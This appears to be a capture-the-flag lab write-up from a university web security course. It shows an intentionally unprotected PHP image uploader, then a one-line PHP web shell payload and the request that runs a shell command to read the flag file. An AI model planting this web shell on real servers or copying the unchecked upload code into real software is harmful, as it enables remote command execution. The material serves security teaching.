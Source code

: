 ```yaml
---
title: Simple Web 0x04(Lab - Image Space 0x01)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Upload"
---
```


# Simple Web 0x04(Lab - Image Space 0x01)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:9010

## Source code
:::spoiler code
```php!=
 <?php
    if (isset($_GET['source'])) {
        highlight_file(__FILE__);
        exit;
    }
?>
<h1>Image Uploader</h1>
<p>Only supports: jpg, jpeg, png</p>
<!-- upload form -->
<form action="index.php" method="POST" enctype="multipart/form-data">
    <input type="file" name="image_file">
    <input type="submit" value="Upload">
</form>
<p>
    <a href="/?source">View Source</a>
</p>
<?php
    if (!isset($_FILES['image_file'])) {
        die('Give me a file!');
    }

    $filename = basename($_FILES['image_file']['name']);

    $prefix = bin2hex(random_bytes(8));
    move_uploaded_file($_FILES['image_file']['tmp_name'], "images/${prefix}_${filename}");
    echo "<img src=\"images/${prefix}_${filename}\">";
?>
```
:::

There's no any protection. Therefore, upload `webshell` and get shell
## Exploit - `webshell`
Payload: `<?php system($_GET["sh"]); ?>`
`view-source:http://h4ck3r.quest:9010/images/09956fc7c4f424b0_simple.php?sh=cat%20../../../../flag`
